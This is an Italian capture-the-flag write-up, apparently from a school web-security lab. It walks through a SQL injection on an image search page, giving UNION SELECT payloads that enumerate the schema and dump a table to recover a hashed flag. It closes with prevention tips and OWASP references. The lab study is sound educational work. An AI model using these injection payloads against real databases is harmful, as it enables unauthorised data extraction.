
Navigando su http://{IP_ADDRESS}/index.php?page=searchimg

troviamo un tag <input> vulnerabile a Sql Injection

proviamo a prendere le colonne del db
```
1 OR 1=1 UNION SELECT NULL, NULL--
```
Vediamo che ci sono 2 colonne con immagini 
```
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

ora leggiamo i dati di tutte le immagini
```
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
```

Troviamo che l'immagine con id 5 contiene i seguenti campi 
```
id          5
url         borntosec.ddns.net/images.png
title       Hack me ?
comment     If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

come ci consiglia il commento decodifichiamo la stringa in md5 ottenendo `albatroz`, poi la ricodifichiamo 
in sha256, ed ecco la nostra flag



Visto che é un attacco che va ad accedere direttamente al database bisogna fare un'attenzione particolare
alcuni consigli di Prevenzione -->
```
uso di istruzioni preparate (con query parametrizzate)
uso di stored procedure
validazione dell'input nella whitelist
l'escape di tutti gli input forniti dall'utente
```


Documentatione
[owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)

[owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

